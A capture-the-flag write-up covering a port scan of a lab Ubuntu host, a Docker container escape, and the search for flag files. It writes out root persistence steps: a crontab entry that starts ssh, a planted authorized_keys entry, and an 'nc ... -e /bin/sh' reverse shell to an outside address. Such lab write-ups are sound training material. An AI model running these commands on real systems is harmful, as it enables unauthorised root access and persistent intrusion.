

# Ubuntu

## Port Scan

```
ec2-user@kali:~$ nmap 172.16.4.85 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-30 18:37 UTC
Nmap scan report for 172.16.4.85
Host is up (0.015s latency).
Not shown: 65525 closed ports
PORT      STATE SERVICE
25/tcp    open  smtp
79/tcp    open  finger
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8443/tcp  open  https-alt
8777/tcp  open  unknown
8880/tcp  open  cddbp-alt
9021/tcp  open  panagolin-ident
31063/tcp open  unknown
```

I also checked UDP for a small range, but connection was refused when trying to connect after the scan.

```
PORT    STATE         SERVICE
137/udp open          netbios-ns
138/udp open|filtered netbios-dgm
MAC Address: 0A:28:C5:43:46:2A (Unknown)
```

## Shell on Ubuntu host

One interesting discovery was being able to get a shell on the host system itself after escaping via the docker container on port 2222. Read the writeup for port 2222 (King of Diamonds) to see initial steps.

After mounting the host filesystem within the container, we would have read and write access to everything within the host. This mean that we could exploit this as we wish, and upgrade our container shell to a host shell!

There are various ways to do this but the way used in this case was to write some our own `cronjobs` and make them run as root. Because ssh shells are the nicest to use, we enable ssh on the host machine with the line:

`echo "* * * * * root systemctl start ssh.service" >> /host/etc/crontab`

where `/host` is the mount point used in the container escape. In my Kali instance I generated the key first with `ssh-keygen -t rsa -C "your_email@example.com"`. Then in `/host/root/.ssh/` we add our Kali ssh key to the `authorized_keys` file. An `echo` one liner can be used to do that `echo '<pub_key>' > authorized_keys`. Then we can simply ssh in with `ssh <user>@172.16.4.85` on port 22.

An alternative to the above if you wanted to get straight into a shell would be to just write a `nc` reverse shell and catch it with a listener e.g.

`echo "* * * * * root nc 1.2.3.4 555 -e /bin/sh" >> /host/etc/crontab`

We can now run docker commands, and can even execute commands to be run within the containers e.g. `docker exec -it <container id> bash>` to get a shell for that container.

`Linux ip-172-16-4-85 4.4.0-139-generic #165-Ubuntu SMP Wed Oct 24 10:58:50 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`



## Finding flags on the host

Now we had a shortcut to find all flags on for this box! Although I had already found most at this point.

The files used in docker images lived in `/var/lib/locker/aufs/` and you could simply run a `find` to search for flags. The names of them varied, but you could do various filters like finding all files and checking if each file contains a PNG header. An simple example would be:

```
find ./ -exec grep PNG {} +
Binary file .//5ofspades.png matches
Binary file .//9ofhearts.png matches
Binary file .//8ofdiamonds.png matches
```
